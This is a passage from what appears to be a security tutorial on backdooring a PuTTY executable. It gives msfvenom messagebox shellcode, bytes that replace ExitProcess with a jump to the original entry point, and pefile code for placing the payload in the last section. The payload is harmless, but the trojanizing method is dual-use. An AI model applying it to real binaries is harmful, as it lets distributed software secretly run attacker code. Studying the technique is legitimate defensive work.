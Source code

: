 ```python
                  b"\x65\x63\x75\x72\x68\x6b\x49\x6e\x53\x68\x42\x72\x65"
                  b"\x61\x31\xdb\x88\x5c\x24\x0f\x89\xe3\x68\x65\x58\x20"
                  b"\x20\x68\x20\x63\x6f\x64\x68\x6e\x20\x75\x72\x68\x27"
                  b"\x6d\x20\x69\x68\x6f\x2c\x20\x49\x68\x48\x65\x6c\x6c"
                  b"\x31\xc9\x88\x4c\x24\x15\x89\xe1\x31\xd2\x6a\x40\x53"
                  b"\x51\x52\xff\xd0\x31\xc0\x50\xff\x55\x08")
```

Before injecting this shellcode, we need to modify it to redirect the execution flow to the application. As-is, this shellcode will close the application after being run. To redirect the execution flow we have to modify the last 6 bytes of the shellcode and tell it to continue the execution of the application.

```python
# Last 6 bytes of the original shellcode
# 31C0             XOR EAX,EAX
# 50               PUSH EAX
# FF55 08          CALL DWORD PTR SS:[EBP+8] 	// ExitProcess

# Replace the ExitProcess() by a Push/Call to start the main application
# B8 F0504500    MOV EAX, 004550f0
# FFD0           CALL EAX

# New bytes => \xB8\xF0\x50\x45\x00\xFF\xD0
```

To not break the application flow, replace the last bytes of the shellcode from `\x31\xc0\x50\xff\x55\x08` to `\xB8\xF0\x50\x45\x00\xFF\xD0`.

You should be asking why our original entry point (`0x000550f0`) is different from the one we use in our shellcode (`0x004550f0`). That's because once loaded in memory, the loader add the image base (`0x00400000`), contained in the `OPTIONAL_HEADER` to the entry point. If we don't add the image base, we will redirect the execution flow to an incorrect address and break the application.

Here is the result after the modification of the shellcode:

```python
import pefile

exe_path = "putty_mod.exe"
pe = pefile.PE(exe_path)

number_of_section = pe.FILE_HEADER.NumberOfSections
last_section = number_of_section - 1
raw_offset = pe.sections[last_section].PointerToRawData

# msfvenom -a x86 --platform windows -p windows/messagebox \
# TEXT="Hello, I'm in ur code" ICON=INFORMATION EXITFUNC=process \
# TITLE="BreakInSecurity" -f python
# No encoder or badchars specified, outputting raw payload
# Payload size: 283 bytes
# Final size of python file: 1362 bytes
shellcode = bytes(b"\xd9\xeb\x9b\xd9\x74\x24\xf4\x31\xd2\xb2\x77\x31\xc9"
                  b"\x64\x8b\x71\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x46\x08"
                  b"\x8b\x7e\x20\x8b\x36\x38\x4f\x18\x75\xf3\x59\x01\xd1"
                  b"\xff\xe1\x60\x8b\x6c\x24\x24\x8b\x45\x3c\x8b\x54\x28"
                  b"\x78\x01\xea\x8b\x4a\x18\x8b\x5a\x20\x01\xeb\xe3\x34"
                  b"\x49\x8b\x34\x8b\x01\xee\x31\xff\x31\xc0\xfc\xac\x84"
                  b"\xc0\x74\x07\xc1\xcf\x0d\x01\xc7\xeb\xf4\x3b\x7c\x24"
                  b"\x28\x75\xe1\x8b\x5a\x24\x01\xeb\x66\x8b\x0c\x4b\x8b"
                  b"\x5a\x1c\x01\xeb\x8b\x04\x8b\x01\xe8\x89\x44\x24\x1c"
                  b"\x61\xc3\xb2\x08\x29\xd4\x89\xe5\x89\xc2\x68\x8e\x4e"
                  b"\x0e\xec\x52\xe8\x9f\xff\xff\xff\x89\x45\x04\xbb\x7e"
                  b"\xd8\xe2\x73\x87\x1c\x24\x52\xe8\x8e\xff\xff\xff\x89"
                  b"\x45\x08\x68\x6c\x6c\x20\x41\x68\x33\x32\x2e\x64\x68"
                  b"\x75\x73\x65\x72\x30\xdb\x88\x5c\x24\x0a\x89\xe6\x56"
```